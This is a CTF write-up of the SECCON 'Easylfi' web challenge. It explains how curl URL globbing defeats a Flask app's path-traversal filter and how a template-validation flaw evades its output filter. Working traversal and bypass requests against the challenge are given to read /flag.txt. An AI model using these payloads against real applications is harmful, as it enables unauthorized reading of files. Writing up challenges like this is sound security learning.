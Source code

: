 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

```code
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

where filename is a path parameter

```code
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
```

Apparently, we need to traverse like ../../../../flag.txt

There are two WAFs. The first one filter filename with % or ..

```code
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

Here, we use [URL globbing](https://everything.curl.dev/cmdline/globbing) to bypass the first WAF. {.}{.}/ equals to ../ , so

we can access flag.txt with {.}{.}/{.}{.}/flag.txt

The second WAF filter any response with content SECCON

```code
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response(b"Try harder")
    return response
```

I found a logic flaw in validate func used by custom template func. We can substitue any string for { , though the function is intented to allow only keys like {...}

```code
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
```

But there's still a problem. We can only replace one { now, and it is not enough to enclose SECCON in curly brackets.

ginoah found that we can use {.,.} to make the filename we curl reflected in the output. e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.}/flag.tx{\{,t}'
--_curl_--file:///app/public/../../flag.tx{
--_curl_--file:///app/public/../../flag.txt
SECCON{dummydummy}
```

Now we have two { , we can replace the output twice to eliminate string SECCON by GET ```/{.}{.}/{.}{.}/flag.tx{\{,t}?{=}{&{%0a--curl--file:///app/public/../../flag.txt%0aSECCON}=FLAG```

The original solution by ginoah is trickier and shorter than it. We can use query string in file:// protocol, though it takes no effect.  The query string is revealed in the output e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.,.}/flag.txt?\{'
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
```

Then, we can get the flag by

```GET /{.}{.}/{.}{.}/{.}{.,.}/flag.txt%3f\{?{=}{&{%0aSECCON}=x```